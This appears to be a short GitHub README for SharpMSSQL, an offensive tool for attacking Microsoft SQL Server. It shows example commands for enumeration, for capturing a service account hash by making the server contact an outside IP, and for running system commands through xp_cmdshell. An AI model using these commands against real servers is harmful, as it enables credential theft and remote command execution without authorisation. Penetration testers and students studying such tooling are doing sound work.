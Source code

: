 # SharpMSSQL
## Purpose
Just for enumeration and exploitation of some vulns
## Usage
```
.\SharpMSSQL.exe [hostname] [database] [operation] <options>
```
## Example for enum
```
.\SharpMSSQL.exe appsrv01 master enum
```

## Example for grab svc hash
```
.\SharpMSSQL.exe appsrv01 master gethash 192.168.45.195
```

## Example for execute command with xp_cmdshell
```
.\SharpMSSQL.exe appsrv01 master cmd whoami
```

# Supported opertations
- enum
- gethash
- cmd